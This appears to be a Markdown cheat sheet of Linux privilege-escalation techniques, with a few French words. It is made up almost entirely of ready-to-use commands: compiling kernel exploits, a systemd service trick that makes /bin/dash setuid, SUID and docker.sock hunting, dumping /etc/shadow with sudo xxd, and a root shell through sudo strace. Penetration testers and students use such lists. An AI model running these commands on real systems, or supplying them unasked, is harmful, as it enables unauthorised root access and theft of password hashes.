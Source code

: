 # Priv-Esc Linux

## **Tools**

- [lse.sh](https://github.com/diego-treitos/linux-smart-enumeration)
- [LinEnum](https://github.com/rebootuser/LinEnum)

---

## **Kernel Exploitation**

### Check version

```bash
uname -a
cat /etc/*release
cat /etc/issue
```

Compile for x86 on a x64 machine

```bash
sudo apt update && sudo apt install gcc-multilib 
gcc -Wl,--hash-style=both -m32 <exploit.c>
```

---

## **Systemd**

```bash
echo -e '#!/bin/bash\nchmod 4755 /bin/dash' > /tmp/priv.sh 
vi /lib/systemd/system/debug.service 
edit line : ExecStart in `/tmp/priv.sh
reboot
```

---

## **Programms running**

```bash
ps -aux | grep root
https://github.com/DominicBreuker/pspy 
```

---

## **Services listening**

```bash
netstat -latupen | grep LISTEN
netstat -nlt | awk -F : '/\<tcp\>/ {split($2,a," "); print a[1]}' | xargs -I % bash -c 'echo -ne "\033[1;33m[+]\033[m Port %:\t$(timeout 1 cat </dev/tcp/127.0.0.1/%)\n"'
netstat -nlt | grep 'tcp ' | grep -Eo "[1-9][0-9]*" | xargs -I {} sh -c "echo "" | nc -v -n -w1 127.0.0.1 {}"
```

---

## **Docker**

```bash
find / -group docker -exec ls -la {} 2>/dev/null \;
=> on cherche le docker.sock
```

---

## **Binaries enum**

```bash
find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \; find / -perm -g=s -o -perm -u=s -type f 2>/dev/null
```

---

## **Hash dump**

```bash
sudo xxd /etc/shadow | xxd -r
```

---

## **Strace root**

```bash
sudo strace -o /dev/null /bin/sh
```

